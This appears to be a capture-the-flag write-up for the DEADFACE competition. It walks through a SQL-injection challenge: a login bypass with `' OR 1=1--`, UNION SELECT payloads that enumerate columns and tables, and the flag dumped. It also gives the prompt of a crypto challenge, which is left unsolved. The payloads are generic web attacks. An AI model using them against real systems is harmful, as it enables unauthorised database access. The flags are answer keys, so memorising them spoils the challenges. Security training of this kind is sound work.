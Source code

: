 **Description:** DEADFACE is taunting us! We found their link! There was a breach!. How deep, and how for heaven’s sakes did they got in, we don’t know! Can you locate the flag? Submit the flag as `deadface{text}`. [https://deadface-db01.chals.io](https://deadface-db01.chals.io). 

I go to the site and bypass the login page with the credentials `admin:' OR 1=1--`. Once at the admin dashboard I can search the database by user for activity logs, api keys, and profiles. 

First check how many columns are in the database:
```
' UNION SELECT NULL,NULL,NULL,NULL,NULL--

### Results:

None, None, None, None, None
```
Once there is no error I know there are five.

Check the names of the tables:
```
' UNION SELECT name,NULL,NULL,NULL,NULL FROM sqlite_master WHERE type='table'--

### Results:

activity_logs, None, None, None, None  
api_keys, None, None, None, None  
general, None, None, None, None  
profiles, None, None, None, None  
sessions, None, None, None, None  
sqlite_sequence, None, None, None, None
```

Finally dump the flag:
```
' UNION SELECT flag, NULL, NULL, NULL, NULL FROM general-- 

### Results:

DEADFACE{you_found_the_sqli_01_flag!}, None, None, None, None
```

`DEADFACE{you_found_the_sqli_01_flag!}`

___

## Poor Megan (crypto)

**Category:** crypto

**Author:** @TheZeal0t

**Description:** Oh, NO! Poor MEGAN! She's just been bitten by a ZOMBIE! We can save her if we act fast, but the formula for the antidote has been encoded somehow. Figure out how to unscramble the formula to save Megan from certain zombification. Submit the flag as `deadface{here-is-the-answer}`.

The formula for the antidote: `jLfXjLjXiwfBRdi9lx49nwKslcvxih=1mYval2e9nLfXmxGalwy9lwi9lLf9lwy9nMnaQh=1ihSqlwDVmsvajYvXmMG8jcvZkg=1mYvwkgz1jwKspb55`
